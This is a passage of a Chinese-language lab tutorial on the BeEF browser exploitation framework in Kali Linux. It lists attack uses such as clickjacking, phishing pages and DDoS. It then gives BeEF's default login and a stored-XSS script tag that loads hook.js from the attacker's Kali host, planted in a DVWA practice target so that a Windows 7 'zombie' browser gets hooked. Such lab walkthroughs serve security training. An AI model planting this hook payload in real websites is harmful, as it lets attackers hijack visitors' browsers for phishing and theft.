 1. 点击劫持
2. 弹窗告警
3. 虚假页面
4. 钓鱼页面

#### **渗透攻击**：

1. 内网渗透
2. Metasploit
3. CSRF攻击
4. DDOS攻击

### BeEF基础

```
启动Apache和BeEF:
root@kali:~# service apache2 start
```

![image-20230511012003975](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012003975.png)

![image-20230511012040339](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012040339.png)

![image-20230511012057736](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012057736.png)

```
<script src="http://192.168.106.140:3000/hook.js"></script>
注：192.168.106.140为BeEF所在机器，即Kali Linux IP
```

```
登录BeEF: 
username: beef 
password: beef
```

![image-20230511012200754](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012200754.png)

![image-20230511012222723](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012222723.png)

![image-20230511012242056](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012242056.png)

```
渗透机将脚本放在DWVA靶机中：
<script src="http://192.168.106.140:3000/hook.js"></script>
注：192.168.106.140为BeEF所在机器，即Kali Linux IP
注：需修改字符数的限制，例如为200
```

![image-20230511012309967](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230511012309967.png)

```
肉机Win7 访问XSS stored页面
```
